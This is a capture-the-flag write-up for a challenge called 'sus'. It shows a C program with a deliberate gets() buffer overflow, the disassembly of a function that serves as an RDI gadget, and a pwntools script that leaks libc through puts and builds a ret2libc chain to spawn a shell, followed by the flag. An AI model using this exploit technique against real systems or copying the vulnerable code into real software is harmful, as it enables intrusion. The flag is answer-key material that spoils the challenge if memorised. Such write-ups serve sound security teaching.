

# sus

### Challenge:
##### sus
##### Files: [sus.c](sus.c), [sus](sus)

### Solution:
We are given what seems to be a pretty empty source file:

```c
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
```

We have a bof and no canaries/pie to worry about, however there doesn't seem to be any useful gadgets we can use to rop.
If we open the binary in ghidra and analyze the sus function we can find something pretty interesting:

```asm
PUSH       RBP
MOV        RBP,RSP
MOV        qword ptr [RBP + local_10],RDI
NOP
POP        RBP
RET
```

This is essentially a gadget to set RDI to a value of our choosing, as we can control the stack.
Knowing this our strategy becomes: 

```Set rdi to a function got -> call puts -> libc leak -> restart binary -> ret2libc```

```py
    r = conn()

    payload = b"A"*8*7 + p64(exe.got.puts) + b"A"*8 + p64(exe.plt.puts) + p64(exe.sym.main)

    r.sendline(payload)

    r.recvuntil(b"sus?\n")
    leak = u64(r.recvline()[:-1].ljust(8,b"\x00"))

    libc.address = leak - libc.sym.puts

    rop = ROP(libc)

    POP_RDI = p64(rop.rdi.address)
    POP_RSI = p64(rop.rsi.address)
    POP_RDX = p64(rop.rdx.address)
    RET = p64(rop.ret.address)

    payload = POP_RDI + p64(libc.binsh()) + POP_RSI + p64(0) + POP_RDX + p64(0) + RET + p64(libc.sym.system)

    r.sendline(b"A"*8*9 + payload)

    r.interactive()
    #lactf{amongsus_aek7d2hqhgj29v21}
```

Solve script: [solve.py](solve.py)

Flag: ```lactf{amongsus_aek7d2hqhgj29v21}```